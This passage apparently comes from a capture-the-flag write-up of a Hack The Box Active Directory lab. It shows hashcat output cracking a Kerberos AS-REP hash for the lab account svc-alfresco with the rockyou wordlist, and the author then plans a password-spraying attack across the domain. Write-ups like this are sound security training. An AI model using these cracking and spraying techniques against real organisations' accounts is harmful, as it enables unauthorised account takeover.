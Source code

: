 ```none
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 345 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:f05a2b15c6dde44f6d8830c5b0627b34$350048b7786adbdbfe6ac933a80e9488f0a89da3a342c4c49d8ab1161ea628ed24c25a4d07443b5b8db2d60832e686d793651528fa447e8c9abb916be6d4f9a17836a6ec52eed66211cfed3a4aa130e6c065c14965246f640b6e97c49e0cc40b336abc3b297c9d4297079237b69f39731f77cded12c8d3c262ffd7648372953b695094a2bd221ac95b85af908033a3b2f2cd5e819313c3a04924a1be52fb660ce4485968744be4fa0ec1acc63353f110538615496cbfa765a03ad4e634f893dbd7966c89bdd6df0d328b6bd11b1af6ff046db8937bb6a564ba849c5c055b203d3882acc9d4b4:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:f05a2b15c6dde4...c9d4b4
Time.Started.....: Wed Sep 09 13:26:26 2020 (1 sec)
Time.Estimated...: Wed Sep 09 13:26:27 2020 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2781.2 kH/s (5.12ms) @ Accel:128 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4194304/14344385 (29.24%)
Rejected.........: 0/4194304 (0.00%)
Restore.Point....: 4063232/14344385 (28.33%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: sadecheverri -> rogans
Hardware.Mon.#1..: Temp: 52c Util: 29% Core:1410MHz Mem:3500MHz Bus:16

Started: Wed Sep 09 13:26:18 2020
Stopped: Wed Sep 09 13:26:29 2020
```

Success! It turns out that `svc-alfresco`'s password was `s3rvice`. At this point, I figured I might as well try a password spraying attack with this password against every single user within the Active Directory domain. But first, it is important to check the Active Directory account lockout policy so that I don't end up locking out any users by accident which would blow my cover and make me look really bad during a real pentest engagement.
